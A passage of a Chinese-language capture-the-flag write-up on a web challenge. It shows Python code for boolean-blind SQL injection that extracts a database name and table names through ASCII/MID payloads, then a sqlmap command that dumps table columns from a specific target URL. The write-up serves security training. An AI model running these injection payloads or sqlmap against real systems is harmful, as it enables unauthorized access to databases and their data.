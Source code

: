 ```python
                print(pos, chr(s))
                database_name += chr(s)
                break
    return database_name
```

这里用head方法是因为这个网站只需要知道响应码就ok了，这样可以提高请求的速度。

得到`database_name = 'level5'`

然后猜表

```python
def guess_database_tables(url, database_name):
    table1_length = 6 # 浏览器手工注入结果
    table2_length = 6
    tables = []
    payload = " AND ASCII(MID((SELECT table_name FROM information_schema.tables WHERE table_schema='{}' limit {}, 1), {}, 1))={}"
    for table_idx in range(2):
        table_name = ""
        for table_pos_idx in range(1, table1_length + 1):
            for s in get_available_ascii():
                u = url + payload.format(database_name, table_idx, table_pos_idx, s)
                r = requests.head(u)
                print(r.status_code)
                if r.status_code == 200:
                    print("table", table_idx, table_pos_idx, chr(s))
                    table_name += chr(s)
                    break
        tables.append(table_name)
    return tables
```

表长是手工注入的时候得到的，这里就直接当常量用了，最后得到结果为

```python

table0 = "albums"
table1 = "photos"
```

做到这一步，我打算直接上sqlmap了。kali启动~

先爆第一个表albums的字段

```bash
sqlmap --threads 10 -u "http://35.227.24.107/479b051cb9/fetch?id=1" -D level5 -T albums --columns

```

结果为

| Column | Type    |
|--------|---------|
| id     | int(11) |
| title  | text    |
